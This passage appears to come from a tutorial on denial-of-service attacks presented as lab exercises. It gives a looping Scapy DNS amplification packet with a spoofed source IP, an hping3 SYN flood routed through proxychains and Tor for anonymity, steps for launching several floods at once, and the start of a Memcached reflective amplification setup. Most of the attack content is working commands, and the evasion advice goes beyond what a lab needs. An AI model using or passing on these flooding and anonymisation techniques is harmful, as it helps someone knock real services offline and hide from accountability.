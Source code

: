      packet = IP(src=target_ip, dst=dns_server)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="example.com", qtype="ANY"))
     send(packet, loop=1, verbose=0)
     ```
- **Anonymity**:
  - Run all tools through `proxychains` with Tor:
    ```bash
    proxychains hping3 -S --flood -p 80 <target_IP>
    ```
  - Spoof source IP for DNS amplification.
  - Use random user agents in HTTP flood.
- **Lab Exercise**:
  1. Set up a target VM (e.g., Ubuntu with Apache and BIND9).
  2. Launch all three attacks simultaneously from Kali.
  3. Monitor target with `htop` and `tcpdump`:
     ```bash
     tcpdump -i eth0 host <target_IP>
     ```
- **Effectiveness**: High. Overwhelms multiple layers, making mitigation harder.
- **Weakness Exploited**: Lack of multi-layer defenses (e.g., no WAF or rate limiting).

### b. Reflective Amplification Attacks

- **Concept**: Use third-party servers (e.g., DNS, NTP, Memcached) to amplify traffic by sending small requests with a spoofed source IP (target’s IP), causing large responses to flood the target.
- **Real-World Use**: Common in large-scale attacks (e.g., 2018 Memcached attack reaching 1.7 Tbps).
- **Example: Memcached Amplification**:

  - Memcached servers (UDP port 11211) can amplify traffic up to 50,000x.
  - Requires open Memcached servers (simulate in lab).

- **Lab Setup**:

  1. Install Memcached on a second VM:

     ```bash
     sudo apt-get install memcached
     ```

     Enable UDP in `/etc/memcached.conf`:

     ```
     -u memcached
     -l 0.0.0.0
     -p 11211
     -U 11211
     ```

     Restart:

     ```bash
     sudo systemctl restart memcached
     ```
